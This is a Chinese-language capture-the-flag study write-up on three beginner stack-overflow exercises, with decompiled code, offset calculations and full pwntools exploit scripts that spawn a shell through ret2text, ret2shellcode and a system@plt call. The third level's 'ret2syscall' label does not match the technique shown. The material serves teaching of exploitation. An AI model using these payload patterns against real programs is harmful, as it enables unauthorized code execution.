



# pwn basic 基础练习题

`更新时间：2025-3-18`

注释解释：

- `<>`必填项，必须在当前位置填写相应数据

- `{}`必选项，必须在当前位置选择一个给出的选项

- `[]`可选项，可以选择填写或忽略

*注：该笔记内的可选项和参数均不完整，如有需要，请查询相关手册*

---

在学习了`pwn basic`基础后，可以进行一些题目的练习了，该笔记用于记录尽量完整的题目解题过程

题目链接

```
https:#pan.baidu.com/s/1vRCd4bMkqnqqY1nT2uhSYw
```

提取码`5rx6`

## level0

直接使用`IDA`反编译，查看`main()`函数

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  write(1, "Hello, World\n", 0xDuLL);
  return vulnerable_function(1LL);
}
```

`main()`函数打印`Hello, World\n`，然后跳转`vulnerable_function()`函数，并传参`1LL`

查看`vulnerable_function()`函数

```c
ssize_t vulnerable_function()
{
  _BYTE buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}
```

缓冲区128字节，但是读取512字节，存在缓冲区溢出，接下来查看其他函数，确认攻击类型

> 

很显然`callsystem()`函数是用户自定义函数，查看其内容

```c
int callsystem()
{
  return system("/bin/sh");
}
```

 `system()`直接调用`"/bin/sh"`，可以确认题目类型是`ret2text`

然后`pwn checksec`检查启用的安全措施

> 

可以看到`PIE`关闭，能够直接调用程序函数地址，进一步验证需要我们调用`callsystem()`函数。然后进行动态调试，计算溢出长度。这里需要注意，`vulnerable_function()`是由`main()`返回的，在断点时，应该断在`vulnerable_function()`，而不是`main()`

> 

`rbp`相对偏移值`0x80`，加上`rbp`本身8字节，总共`0x80 + 0x8 = 0x88`字节需要溢出

然后编写攻击脚本

```py
# 导入pwntools库
from pwn import *

# 调整环境为amd64
context.arch = 'amd64'
# 设置攻击进程
sh = process('./level0')
# 开启一份程序镜像，用于寻找程序中的指定内容的地址
elf = ELF('./level0')

# 自动查找程序中函数callsystem()的地址
callsystem = elf.symbols['callsystem']
# 构建payload
# 溢出0x88个字节
# 返回地址是callsystem()函数地址
# callsystem + 1是为了栈对齐
payload = flat([cyclic(0x88), callsystem + 1])

sh.sendline(payload)
sh.interactive()
```

执行脚本，成功`getshell`

> 

## level1

首先反编译

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

先调用`vulnerable_function()`，然后打印`Hello, World!\n`

显然漏洞不在`main()`，我们查看`vulnerable_function()`

```c
ssize_t vulnerable_function()
{
  _BYTE buf[136]; // [esp+0h] [ebp-88h] BYREF

  printf("What's this:%p?\n", buf);
  return read(0, buf, 256u);
}
```

`buf`缓冲区136字节，但是`read()`可以写入256字节，确定存在栈溢出漏洞

而且程序为我们打印了`buf`缓冲区的地址

然后来找有没有后门函数

> 

似乎没有什么后门函数，先排除`ret2text`题型，然后我们查看程序安全性

> 

栈可执行，并且拥有`rwx`段，很显然是`ret2shellcode`题型

然后进行动态调试，计算溢出长度，注意断点依然断在`vulnerable_function()`

> 

`ecx`的相对偏移是`0x10`，`ebp`是`0x98`，溢出长度就是`0x98 - 0x10 + ebp(0x4) = 0x8c`字节

下面编写攻击脚本

```py
# 导入pwntools库
from pwn import *

# 设置攻击进程
sh = process('./level1')
# 获取程序暴露的buf地址，并将byte类型转换为int类型
buf_addr = int(sh.recv()[-12: -2].decode(), 16)
# 自动构建shellcode
shellcode = asm(shellcraft.sh())
# 构建payload
# 0x8c溢出长度
# 0x8c中包含shellcode的长度，因此需要使用ljust()函数来填充
# 返回地址是程序暴露的buf缓冲区的地址
payload = flat([shellcode.ljust(0x8c, b'a'), buf_addr])

sh.sendline(payload)
sh.interactive()
```

执行脚本，成功`getshell`

> 

## level2

反编译

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  system("echo 'Hello World!'");
  return 0;
}
```

漏洞不在`main()`，查看`vulnerable_function()`

```c
ssize_t vulnerable_function()
{
  _BYTE buf[136]; // [esp+0h] [ebp-88h] BYREF

  system("echo Input:");
  return read(0, buf, 256u);
}
```

`buf`缓冲区136字节，`read()`写入256字节，显然存在栈溢出漏洞

`system()`调用的是`echo Input:`，没有调用`/bin/sh`，不是`ret2shellcode`

> 

没有后门函数，不是`ret2text`，然后找找有没有`"/bin/sh"`字符串

> 

存在`"/bin/sh"`，可以确定是`ret2syscall`题型

然后直接编写攻击脚本

```py
# 导入pwntools库
from pwn import *
# 设置攻击进程
sh = process('./level2')
# 开启一份程序镜像，用于寻找程序中的指定内容的地址
elf = ELF('./level2')

# 指定"/bin/sh"的地址，该地址可以通过IDA或者ROPgadget获取
binsh = 0x0804a024
# 获取system@plt的地址，相当于直接调用system()
system_plt = elf.plt['system']
# 构造payload
# 溢出长度0x8c
# 返回地址是system@plt
# system()的返回地址在这里没有意义，因此填充垃圾数据
# system()的参数是"/bin/sh"的地址
payload = flat([cyclic(0x8c), system_plt, b'aaaa', binsh])

sh.sendline(payload)
sh.interactive()
```

执行脚本，成功`getshell`

> 

*注：本题直接使用IDA的缓冲区长度和寄存器相对位移计算溢出长度，例如`_BYTE buf[136]; // [esp+0h] [ebp-88h] BYREF`一行中，可以知道`buf`是136字节，位于`esp + 0x0`和`ebp - 0x88`字节的位置*